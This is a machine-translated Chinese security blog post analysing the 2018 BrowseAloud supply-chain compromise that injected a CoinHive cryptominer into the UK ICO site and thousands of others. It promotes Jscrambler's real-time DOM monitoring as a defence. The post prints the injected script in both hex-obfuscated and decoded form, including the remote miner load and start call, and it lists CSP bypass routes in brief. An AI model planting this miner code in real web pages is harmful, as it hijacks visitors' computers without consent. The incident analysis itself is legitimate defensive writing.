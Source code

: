 # ICO 案例研究|通过实时网页监控应对密码劫持

> 原文：<https://medium.com/hackernoon/ico-case-study-tackling-cryptojacking-with-real-time-webpage-monitoring-ac1ed5049c22>

![](img/20e286a4cd677bf785ce3491f22b17f3.png)

本周末，英国信息专员办公室网站 ICO([https://ico.org.uk/](https://ico.org.uk/))被发现向其用户提供 CoinHive 密码挖掘器。CoinHive crypto miner 是一个 JavaScript，可以安装在任何挖掘加密的网站上(例如 Monero — XMR)。

显然，这不是 ICO 的本意，ICO 是一个帮助保护英国用户隐私的机构。它是对 ICO 网站中使用的第三方提供商 TextHelp 的妥协的结果。在另一位安全专家伊恩·川普的提示后，这一行为被安全负责人、io 和 report-uri.com 创始人[斯科特·赫尔姆](https://scotthelme.co.uk/protect-site-from-cryptojacking-csp-sri/)标记出来。

# 袭击

ICO 的网站当时正在加载这个文件:`https://www.browsealoud.com/plus/scripts/ba.js`，问题就从这里开始了。通过像这样直接从第三方网站加载 JavaScript，他们基本上为注入攻击打开了大门。这与是否信任第三方提供商无关，因为他们可能会在不知不觉中受到威胁，从而使攻击者能够将其用作注射工具。

这是添加到 ba.js 脚本中的内容:

```
window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x77\x72\x69\x74\x65"]("\x3c\x73\x63\x72\x69\x70\x74 \x74\x79\x70\x65\x3d\x27\x74\x65\x78\x74\x2f\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74\x27 \x73\x72\x63\x3d\x27\x68\x74\x74\x70\x73\x3a\x2f\x2f\x63\x6f\x69\x6e\x68\x69\x76\x65\x2e\x63\x6f\x6d\x2f\x6c\x69\x62\x2f\x63\x6f\x69\x6e\x68\x69\x76\x65\x2e\x6d\x69\x6e\x2e\x6a\x73\x3f\x72\x6e\x64\x3d"+window["\x4d\x61\x74\x68"]["\x72\x61\x6e\x64\x6f\x6d"]()+"\x27\x3e\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e");window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x77\x72\x69\x74\x65"]('\x3c\x73\x63\x72\x69\x70\x74\x3e \x69\x66 \x28\x6e\x61\x76\x69\x67\x61\x74\x6f\x72\x2e\x68\x61\x72\x64\x77\x61\x72\x65\x43\x6f\x6e\x63\x75\x72\x72\x65\x6e\x63\x79 \x3e \x31\x29\x7b \x76\x61\x72 \x63\x70\x75\x43\x6f\x6e\x66\x69\x67 \x3d \x7b\x74\x68\x72\x65\x61\x64\x73\x3a \x4d\x61\x74\x68\x2e\x72\x6f\x75\x6e\x64\x28\x6e\x61\x76\x69\x67\x61\x74\x6f\x72\x2e\x68\x61\x72\x64\x77\x61\x72\x65\x43\x6f\x6e\x63\x75\x72\x72\x65\x6e\x63\x79\x2f\x33\x29\x2c\x74\x68\x72\x6f\x74\x74\x6c\x65\x3a\x30\x2e\x36\x7d\x7d \x65\x6c\x73\x65 \x7b \x76\x61\x72 \x63\x70\x75\x43\x6f\x6e\x66\x69\x67 \x3d \x7b\x74\x68\x72\x65\x61\x64\x73\x3a \x38\x2c\x74\x68\x72\x6f\x74\x74\x6c\x65\x3a\x30\x2e\x36\x7d\x7d \x76\x61\x72 \x6d\x69\x6e\x65\x72 \x3d \x6e\x65\x77 \x43\x6f\x69\x6e\x48\x69\x76\x65\x2e\x41\x6e\x6f\x6e\x79\x6d\x6f\x75\x73\x28\'\x31\x47\x64\x51\x47\x70\x59\x31\x70\x69\x76\x72\x47\x6c\x56\x48\x53\x70\x35\x50\x32\x49\x49\x72\x39\x63\x79\x54\x7a\x7a\x58\x71\'\x2c \x63\x70\x75\x43\x6f\x6e\x66\x69\x67\x29\x3b\x6d\x69\x6e\x65\x72\x2e\x73\x74\x61\x72\x74\x28\x29\x3b\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e');
```

该代码有一个非常简单的混淆，只使用下标符号将`window.document.write`转换为`window[‘document’][‘write’]`——随后使用字符串编码来隐藏所有敏感的字符串，如“document”和“write ”,以及对 CoinHive 的 URL 和代码的引用。

这是一个相反的版本:

```
window["document"]["write"]("<script type='text/javascript' src='https://coinhive.com/lib/coinhive.min.js?rnd=" + window["Math"]["random"]() + "'></script>"); window["document"]["write"]('<script> if (navigator.hardwareConcurrency > 1){ var cpuConfig = {threads: Math.round(navigator.hardwareConcurrency/3),throttle:0.6}} else { var cpuConfig = {threads: 8,throttle:0.6}} var miner = new CoinHive.Anonymous(\'1GdQGpY1pivrGlVHSp5P2IIr9cyTzzXq\', cpuConfig);miner.start();</script>');
```

原来 ICO 并不是唯一受影响的网站。[超过 4000 个网站](https://publicwww.com/websites/browsealoud.com%2Fplus%2Fscripts%2Fba.js/)报告直接从 browsealoud.com 网站加载被感染的脚本。

这与 RiskIQ 声称的针对 jQuery CDN 的所谓攻击没有太大区别，risk IQ 声称，在注入被移除之前，该攻击是向直接从 CDN 加载 jQuery 的每个网站的每个用户提供 RIG exploit kit。这对攻击者来说太有吸引力了，他们可以通过攻击动态加载的依赖关系来大规模危害用户。

这些攻击的焦点似乎正在转向密码劫持。最近很多网站被入侵的例子。jQuery 的博客就是[的一个例子](https://www.hackread.com/jquery-blog-hacked-coinhives-dns-compromised/)。对 TextHelp 的攻击只是最近的一起。

# 使用 CSP + SRI 进行缓解

正如 Scott Helme 所指出的，减轻这种情况的一种方法是向加载外部脚本的脚本元素添加子资源完整性(SRI)属性。他甚至建议使用 CSP 的`require-sri-for`指令来补充 SRI 标签的使用。

这是一个很好的建议，但是如果依赖脚本需要定期更新的话，效果就不太好了，事实似乎就是这样。一个很好的折衷办法是使用 CSP 来限制加载脚本的域。

但这并不完美。这可能会给注入任意脚本留下空间，这取决于哪些域被列入白名单。Michele Spagnuolo 和 Lukas weicselbaum[在这里](https://www.youtube.com/watch?v=uf12a-0AluI)精彩地报道了这一点。但基本上，有很多方法可以做到这一点。几个例子:

1.  JSONP 回调端点
2.  使用 AngularJS 和其他 JS 框架绕过-有记录的 CSP 绕过可能允许攻击者在页面中注入任意 JS
3.  在白名单域上使用开放重定向，因为路径在重定向后会被 CSP 忽略

由此得出的结论是，基于白名单的 CSP 确实很难实现，熟练的攻击者可能会找到绕过它的方法。一个更好的解决方案是使用 CSP nonces，这是一个 base64 编码的序列，在每次加载页面时必须是唯一的，并且必须设置为内联和外部脚本的属性。这样，注入的脚本无法预测有效的 nonce，加载将会失败。然而，在这种攻击中，坏人可以轻松地注入整个 coinhive.js 文件，这将通过 CSP(但不是 SRI)。

无论如何，您仍然需要使用 SRI 来确保不加载无效的脚本，但是如果 JS lib 需要频繁更新，这也不是一个好的选择。您总是可以自己托管文件，但是在动态生成 JavaScript 的情况下，这并不总是可行的(无论如何，这是一种糟糕的做法)。

关于 CSP，需要注意的是，[任何基于头部的网络安全控制都可以被浏览器扩展](https://www.youtube.com/watch?v=vWaH4Mu1EF8&t=2193s)解除。

# 使用网页实时监控进行缓解

如果没有可靠的方法来确保恶意代码或标记被注入到您的网站中，那么下一个最好的事情就是了解它并实时做出反应。这正是 Jscrambler 的[网页完整性](https://jscrambler.com/webpage-integrity)技术能够做到的。它监视网页 DOM 中的任何注入，并向后端的 webhook 报告。它检测任何变化，包括 0 天的威胁，而不仅仅是已知的注射。

在某些情况下，它还可以当场解除注射。起初，这可能不是一个永久的删除，但它非常有用，因为它不仅防止执行影响会话，还告诉您注入了什么。然后就有可能弄清楚这种注射最初是如何插入的，并采取措施永久地修复这种情况。

它类似于 CSP 报告接口，但它根本不使用 CSP。有一些重叠，但是当你使用两者时，你得到最好的保护。网页完整性方法的优点是，与 CSP 相反，如果脚本改变并开始将脚本标签注入 DOM，可以立即警告用户，从而允许实时反应。这在 SRI 不是一个选项的情况下(例如，脚本需要实时更新)是绝对相关的。

恶意修改的 ba.js 不再从 browsealoud.com 提供，但我们的团队复制了攻击，强制受感染的 [ba.js](https://pastebin.com/AHyehgS7) 版本(而不是当前版本)进入 ICO 的网站。同时，我们在 ICO 的网站中手动注入网页完整性嵌入代理来监控网页 DOM。目标是捕捉`document.write`在 ICO 的网页 DOM 上登陆的输出并减轻攻击。

我们不仅能够捕捉到注入的`<script>`加载 CoinHive 的脚本，还能捕捉到内联脚本初始化 lib 并启动挖掘。您可以在仪表板中看到这一点(见下图)，同时您会在后端收到一个通知，您可以据此配置安全策略。

![](img/29714facfe4f89b57555f9f5e9098286.png)

Figure 1 — Webpage Integrity Dashboard showing one of the injections

以下视频是 ICO 密码劫持攻击的概念验证，以及如何通过实时网页监控检测到该攻击。

# 结论

随着加密货币的日益普及(和价值)，攻击者开始转向窃取我们计算机的周期作为获取现金的一种方式。去年左右的新闻里到处都是密码劫持。
此次 TextHelp 事件再次证明了这对攻击者有多么大的吸引力，尤其是如果他们能够破坏第三方依赖关系，并一击命中多个网站。我们肯定会在未来看到更多这样的攻击。

CSP 有助于限制外部 JavaScript 在网站中的加载，但并不意味着保证它期望加载的脚本的完整性。SRI 可以在这方面有所作为，但当脚本经常改变时，就很难维持了。

Jscrambler 的[网页完整性](https://jscrambler.com/webpage-integrity)是一种新方法，它实时监控网页的 DOM 修改、JS 中毒攻击、JS 事件劫持和 XSS，并向后端报告，允许 webapp 立即做出反应。有了它，我们能够证明我们可以从 TextHelp 的受损脚本中捕获注入，并能够通知 ICO(或任何其他可能被攻击的[网站](https://publicwww.com/websites/browsealoud.com%2Fplus%2Fscripts%2Fba.js/))。

最后，这里有一个“假设”练习:在这些攻击中，攻击者只关心使用终端用户的 CPU 来挖掘密码。但是，在网页中执行任意 JavaScript 的能力将允许攻击者收集用户访问的任何敏感信息或完全修改 DOM，并欺骗用户放弃其凭据或执行一些不符合其最佳利益的操作。客户端注射是一个需要尽全力解决的问题。

*原载于 2018 年 2 月 15 日*[*blog.jscrambler.com*](https://blog.jscrambler.com/ico-case-study-tackling-cryptojacking-with-real-time-webpage-monitoring/)*。*